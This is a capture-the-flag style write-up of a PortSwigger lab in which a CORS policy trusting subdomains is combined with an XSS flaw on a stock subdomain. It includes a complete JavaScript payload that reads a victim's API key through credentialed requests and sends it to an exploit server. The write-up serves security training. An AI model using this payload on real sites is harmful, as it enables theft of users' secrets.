 # Write-up: CORS vulnerability with trusted insecure protocols

Lab-Link: <https://portswigger.net/web-security/cors/lab-breaking-https-attack>  
Difficulty: PRACTITIONER


## Lab description

![lab_description](img/1.png)

### Goals

- Create a malicious JS code:
    - which can retreive the administrator's API key
    - and sends it to exploit server

## Steps

Firstly, login into the website using given credentials `wiener:peter` and intercept the request while logging.

![login_page](img/2.png)

We can see the request for url `/accountDetails` whose respone contains the API key.

According to the lab description, application trusts subdomains. So, if we send request with origin as `Origin: https://evil.0a83009e04e20f0680f76cc8009300da.web-security-academy.net`, we get response with `Access-Control-Allow-Origin: https://evil.0a83009e04e20f0680f76cc8009300da.web-security-academy.net`

![cors_poc](img/4.png)

But, now we need to find a vulnerability in a subdomain website to exploit this vulnerability. After further enumeration if we find XSS vulnerability in "Check Stock" request.

![cors_poc](img/5.png)
![cors_poc](img/6.png)

Now, we need to write a javascript code which uses above XSS vulnerability and which will:
1. call the `/accountDetails` page
2. fetches the API key
3. issues a request to the exploit server containing the value

```js
<script>
    document.location="http://stock.0a8900360434726a80f9fec2008a00fb.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a8900360434726a80f9fec2008a00fb.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0ada00490433726a80d4fda701080095.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```
![exploit_code](img/7.png)

Now, we test this exploit by clicking on "View Exploit" and checking logs we confirm that we can see wiener's apiKey.

![exploit_code](img/8.png)

So, now we deliver this exploit to the victim. After checking the "Access log" from exploit server we can see the administrator's API Key

![api_key](img/9.png)

We can now submit this API key of administrator.

Hence, lab is solved.

![success](img/10.png)

